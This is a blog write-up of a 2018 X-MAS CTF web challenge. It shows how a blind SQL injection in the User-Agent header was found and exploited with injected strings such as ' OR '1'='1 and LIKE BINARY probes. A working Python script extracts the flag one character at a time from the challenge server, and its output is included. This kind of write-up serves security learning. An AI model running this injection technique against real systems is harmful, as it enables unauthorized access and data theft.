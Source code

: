 ```yaml
---
layout: post
title: "X-MAS CTF: Santa's No Password Login System"
date: 2018-12-21
excerpt: "Blind SQL injection in the user-agent field? Nobody expected that..."
tags: [CTF, SQL, Python, Web]
comments: true
feature: http://4.bp.blogspot.com/-5rGrGNy9X_4/TpP6Vr64pzI/AAAAAAAAArE/SfEouAm3U38/s1600/sql+injection.jpg
---
```


# X-MAS CTF: Santa's No Password Login System

The challenge description is:

![Img](/assets/posts_details/XMAS_CTF/nologin/intro.png "Img")

And once we go to the main page we are greeted with the following:

![Img](/assets/posts_details/XMAS_CTF/nologin/main.png "Img")

I knew the cookies didn't have anything to do with the challenge, given that they were used in another one, and that there was some kind of verification with some headers (no other data was being passed). After a lot of tests, It turned out that the user-agent field contained a SQL injection vulnerability!

![Img](/assets/posts_details/XMAS_CTF/nologin/sql_test.png "Img")

I tried to pass something that would evaluate to true: ``' OR '1'='1``. Nothing changed apart from the access denied thing, instead of that I got a ``Welcome`` message:

![Img](/assets/posts_details/XMAS_CTF/nologin/sql_message.png "Img")

That brought to mind a blind SQL injection. There was a problem, though. I didn't know what was the name of the parameter that the SQL was querying...

After quite a lot of time I found out that it was ``ua``. Quite silly (user-agent -> ua).

I tried some things, like checking the length of the ``ua``. The message indicated whether my query was true (``Welcome``) or false (``Access denied``).

![Img](/assets/posts_details/XMAS_CTF/nologin/blind_sql_1.png "Img")

![Img](/assets/posts_details/XMAS_CTF/nologin/blind_sql_40.png "Img")

So the ``ua`` is longer than 1 character and shorter than 40. With that method I found out that the ``ua`` is 37 chars long:

![Img](/assets/posts_details/XMAS_CTF/nologin/blind_sql_37.png "Img")

Then, I tried to extract the value with a blind SQL method: ``LIKE BINARY``. What this does is it compares the start of the ``ua`` to some substring we provide.

I tried checking if the first char was ``A``, but it wasn't:

![Img](/assets/posts_details/XMAS_CTF/nologin/like_op.png "Img")

Then, to check that the method worked I used the wildcard ``%``, which substitutes any character any number of times (any string). And indeed it worked!

![Img](/assets/posts_details/XMAS_CTF/nologin/like_op_wildcard.png "Img")

Then, I thought that the ``ua`` had to be the flag, so I tried with ``X%``:

![Img](/assets/posts_details/XMAS_CTF/nologin/like_op_flag.png "Img")

I was right! It is the flag. Now, the only thing left is automate this task, as it is rather tedious to do this by hand. I wrote a simple python script that does this for me:

```python
import urllib2

flag = ""

chars = '-\{\}0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_'

for i in range(0, 37):
    for i in range(0, len(chars)):
        str = """' OR ua LIKE BINARY "{}%";#""".format(flag+chars[i])
        headers =  {
                'User-Agent': str,
        }

        req=urllib2.Request("http://199.247.6.180:12003/", None, headers)
        response=urllib2.urlopen(req).read()

        if "Welcome" in response:
            flag += chars[i]
            print flag
            break
```

I run it and see that it works and the flag gets echo'ed!

```terminal
python blind_sql.py
X
X-
X-M
X-MA
X-MAS
X-MAS{
X-MAS{E
X-MAS{EV
X-MAS{EV3
X-MAS{EV3R
X-MAS{EV3RY
X-MAS{EV3RY0
X-MAS{EV3RY0N
X-MAS{EV3RY0NE
X-MAS{EV3RY0NE_
X-MAS{EV3RY0NE_F
X-MAS{EV3RY0NE_F3
X-MAS{EV3RY0NE_F34
X-MAS{EV3RY0NE_F34R
X-MAS{EV3RY0NE_F34R5
X-MAS{EV3RY0NE_F34R5_
X-MAS{EV3RY0NE_F34R5_T
X-MAS{EV3RY0NE_F34R5_TH
X-MAS{EV3RY0NE_F34R5_TH3
X-MAS{EV3RY0NE_F34R5_TH3_
X-MAS{EV3RY0NE_F34R5_TH3_B
X-MAS{EV3RY0NE_F34R5_TH3_BL
X-MAS{EV3RY0NE_F34R5_TH3_BL1
X-MAS{EV3RY0NE_F34R5_TH3_BL1N
X-MAS{EV3RY0NE_F34R5_TH3_BL1ND
X-MAS{EV3RY0NE_F34R5_TH3_BL1ND_
X-MAS{EV3RY0NE_F34R5_TH3_BL1ND_G
X-MAS{EV3RY0NE_F34R5_TH3_BL1ND_GN
X-MAS{EV3RY0NE_F34R5_TH3_BL1ND_GN0
X-MAS{EV3RY0NE_F34R5_TH3_BL1ND_GN0M
X-MAS{EV3RY0NE_F34R5_TH3_BL1ND_GN0M3
X-MAS{EV3RY0NE_F34R5_TH3_BL1ND_GN0M3}
```

We finally get that the flag is: ``X-MAS{EV3RY0NE_F34R5_TH3_BL1ND_GN0M3}``.

---

<center>
<i>Diego Bernal Adelantado</i>
</center>
